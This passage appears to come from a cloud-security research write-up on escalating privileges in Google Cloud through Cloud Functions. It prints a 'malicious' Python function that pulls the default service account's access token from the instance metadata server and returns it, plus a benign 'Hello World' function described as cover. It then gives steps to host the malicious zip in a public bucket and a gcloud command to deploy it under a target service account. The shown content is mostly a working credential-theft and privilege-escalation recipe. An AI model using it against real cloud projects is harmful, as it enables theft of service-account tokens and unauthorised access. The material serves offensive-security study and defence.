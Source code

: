 #### In our case the Malicious and Non-malicious source code are given below:

```python
#Malicious Source Code
#filename: main.py
import requests

def anirban(request):
    metadata_server_url = "http://169.254.169.254/computeMetadata/v1"
    metadata_key_url = f"{metadata_server_url}/instance/service-accounts/default/token"
    metadata_headers = {"Metadata-Flavor": "Google"}
    response = requests.get(metadata_key_url, headers=metadata_headers)
    access_token = response.text
    return access_token
```

```python
#filename: requirements.txt
requests
```
To cover the Malicious Source Code, we'll be using a Non-Malicious source code.

```python
#Non-Malicious Source Code
#filename: main.py
import requests

def anirban(request):
    request_json = request.get_json()
    if request.args and 'message' in request.args:
        return request.args.get('message')
    elif request_json and 'message' in request_json:
        return request_json['message']
    else:
        return f'Hello World!'
```

```python
#filename: requirements.txt
requests
```
Pack the Malicious Source Code (main.py) and requirements.txt into a zip file and upload it to a different Cloud Storage Account (not the same account where you're exploiting the Cloud Function) you have full access to (Editor) and make it public. Copy the gsutil link of the malicious zip file.

Once you have the gsutil URI of the malicious zip file go ahead Deploy a Function via any method (gCloud or Cloud Function API)

### Deploying and Setting IAM Policy to a Cloud Function via gCloud or Cloud Function API (gRPC & REST)

Command to [Deploy Cloud Function via gCloud](https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google Cloud/Cloud Function/PrivEsc-via-CloudFunction.md#deploying-a-cloud-function-via-gcloud):
```powershell
gcloud functions deploy <function-name> --runtime=python38 --source=<gs-link-of-malicious-sourcecode> --entry-point=<function-entrypoint> --trigger-http --service-account=<service-account-email>
```

